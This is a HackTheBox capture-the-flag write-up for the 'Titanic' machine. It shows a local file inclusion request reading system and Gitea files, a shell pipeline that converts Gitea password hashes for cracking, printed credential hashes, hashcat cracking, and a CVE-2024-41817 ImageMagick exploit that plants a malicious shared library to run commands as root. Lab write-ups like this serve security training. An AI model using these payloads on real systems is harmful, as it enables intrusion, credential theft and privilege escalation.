 # Titanic

**Category:** Machine  
**Difficulty:** Medium  
**Platform:** HackTheBox

## Machine Description

Titanic is a medium-difficulty machine that involves web application vulnerabilities, database exploitation, and privilege escalation through ImageMagick security flaws.

## Initial Reconnaissance

### Port Scanning

```bash
nmap -p- --min-rate 2000 -sV -sC $target
```

### Directory Enumeration

```bash
feroxbuster --redirects --smart --url http://titanic.htb
```

## Exploitation

### Step 1: Local File Inclusion (LFI)

Discovered a Local File Inclusion vulnerability in the download parameter:

```
http://titanic.htb/download?ticket=03c24d12-6b39-470a-90ca-23f63518d154.json
```

**Proof of Concept:**
```bash
curl http://titanic.htb/download?ticket=/home/developer/user.txt
```

**Interesting Files Discovered:**
- `/etc/apache2/apache2.conf`
- `/etc/passwd`
- `/etc/hosts`
- `/home/developer/gitea/data/gitea/conf/app.ini`
- `/home/developer/gitea/data/gitea/gitea.db`

### Step 2: Database Extraction

Retrieved the Gitea database and extracted user credentials:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" |
  while read data; do
    digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64)
    salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64)
    name=$(echo $data | cut -d'|' -f 3)
    echo "${name}:sha256:50000:${salt}:${digest}"
  done |
  tee gitea.hashes
```

**Explanation:**
- `cut -d'|' -f1` → Extracts the **first field** (`passwd` hash)
- `xxd -r -p` → Converts the **hex-encoded hash** into raw binary
- `base64` → Encodes the **raw binary hash** into Base64

**Extracted Hashes:**
```
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

### Step 3: Password Cracking

![Password cracking results](./images/screenshot01.png)

Cracked the Gitea hashes using Hashcat:

```bash
hashcat gitea.hashes --show --user /opt/SecLists/rockyou.txt
```

### Step 4: Initial Access

SSH'd into the machine using the developer credentials and enumerated writable directories:

```bash
find / -writable -type d 2>/dev/null
```

### Step 5: Privilege Escalation Discovery

Explored the `/opt/` directory and discovered the `/opt/scripts` directory containing `identify_images.sh`:

![Script discovery](./images/screenshot02.png)

The script had execution and read permissions for users.

### Step 6: ImageMagick Vulnerability Analysis

**ImageMagick Version Check:**
```bash
/usr/bin/magick --version
```

Discovered **CVE-2024-41817** - Arbitrary Code Execution vulnerability affecting ImageMagick versions ≤ 7.1.1-35.

![ImageMagick uses libxcb.so.1 as a dynamic library and executes the command (id) in it](./images/screenshot03.png)

ImageMagick uses **libxcb.so.1** as a dynamic library and executes commands through it.

### Step 7: Local Vulnerability Testing

**Step 1: Create delegates.xml payload**
```bash
cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
```

ImageMagick reads `delegates.xml` and sees that `decode="XML"` requires the "id" command.

**Step 2: Execute the payload**
```bash
magick ./delegates.xml ./out.png 2>/dev/null
```

ImageMagick attempts to process `delegates.xml` as an image and create `out.png`. Since `delegates.xml` is not an image, ImageMagick encounters an error and tries to process it using the commands specified in `delegates.xml`. The error output is suppressed.

**Step 3: Compile malicious library**
```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
```

The `__attribute__((constructor))` automatically executes the `init()` function when the library is loaded. The `init()` function contains the `system()` command, which executes the `id` command. After execution, the process is forcibly terminated by calling `exit(0)`.

**Step 4: Test command execution**
```bash
magick /dev/null /dev/null
```

ImageMagick receives no input and output files but loads instructions from the `libxcb.so.1` created in the same directory and executes the `id` command.

### Step 8: Final Exploitation

Created a malicious `libxcb.so.1` with a payload in the `/opt/app/static/assets/images` directory and used the `identify_images.sh` script to trigger ImageMagick execution.

**Final Payload & Execution:**
```bash
# Navigate to the target directory
cd /opt/app/static/assets/images

# Compile the malicious library
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF

# Trigger ImageMagick execution via the script
/opt/scripts/identify_images.sh
```

Successfully exploited the CVE to copy `root.txt` into this readable folder.

## Tools Used

- **Nmap** - Port scanning and service enumeration
- **Feroxbuster** - Directory enumeration
- **SQLite3** - Database extraction
- **Hashcat** - Password cracking
- **GCC** - Payload compilation
- **ImageMagick** - Target application

## Summary

[Titanic has been Pwned](https://www.hackthebox.com/achievement/machine/2245732/648)

The machine was successfully compromised through LFI → Database extraction → Password cracking → Privilege escalation via CVE-2024-41817.

